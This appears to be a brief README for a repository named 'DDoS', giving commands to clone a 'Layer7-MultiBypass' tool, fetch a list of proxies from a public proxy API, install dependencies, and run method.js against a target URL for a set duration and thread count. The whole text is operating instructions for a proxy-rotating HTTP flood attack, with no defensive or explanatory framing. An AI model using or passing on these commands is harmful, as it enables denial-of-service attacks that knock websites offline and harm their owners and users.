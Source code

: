 # DDoS

## Установка

    apt install npm nodejs git -y
    git clone https://github.com/R00tS3c/Layer7-MultiBypass l7mb
    cd l7mb
    rm -rf proxies.txt
    wget -O proxies.txt https://api.proxyscrape.com/v2/?request=getproxies
    npm install

## Запуск

    cd l7mb
    node method.js [URL] [SECONDS] request [THREADS]
    
### Example:

    node method.js https://example.com 10 request 10
